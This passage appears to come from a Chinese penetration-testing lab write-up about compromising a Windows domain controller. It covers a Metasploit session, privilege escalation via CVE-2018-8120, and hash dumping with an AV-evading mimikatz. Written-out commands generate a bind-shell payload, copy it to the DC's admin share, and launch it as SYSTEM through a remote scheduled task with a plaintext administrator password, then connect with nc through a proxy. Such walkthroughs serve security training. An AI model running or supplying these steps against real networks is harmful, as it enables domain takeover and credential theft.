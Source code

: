 成功执行，这时候在138机器（即DC-win2008）上开启6666端口监听

在msf上个运行blin\_tcp来获取回话

![图片](https://shs3.b.qianxin.com/butian_public/f5fb6a0937f2b5fd06355ff1b1dd85b39.jpg)

成功获取域控权限，后续提权

![图片](https://shs3.b.qianxin.com/butian_public/f141305a103f664e58eed5a2a273be733.jpg)

使用`CVE-2018-8120`提权，成功提到系统权限，这里我思考了一下用`MS14-068`应该也能够提权成功

![图片](https://shs3.b.qianxin.com/butian_public/f6e3f7240ce85b3075d5648360394f99a.jpg)

成功提权，上免杀mimikatz，成功抓到hash

![图片](https://shs3.b.qianxin.com/butian_public/f03953737c3337f507e7a8be0f5e8adfd.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f324839a736571fd9d356d3be69e20e97.jpg)

**票据加计划任务获取DC**

这里先用msf的命令生成正向的马 `yukong.exe`

- 

```php
windows/reverse_bind_tcp LHOST=192.168.10.11 LPORT=7777
```

**``**

把马复制到域控机器上

- 

```php
shell copy C:\\yukong.exe \\192.168.52.138\\c$
```

**``**

然后再用这个写入计划任务的方法去连接，这里马反弹会连不成功，所以使用如下命令

- 

```php
shell schtasks /create /tn "test" /tr C:\\yukong.exe /sc once /st 22:14 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2020"
```

**``**

挂着win7代理

- 

```php
proxy nc -vv 192.168.52.138 7777
```
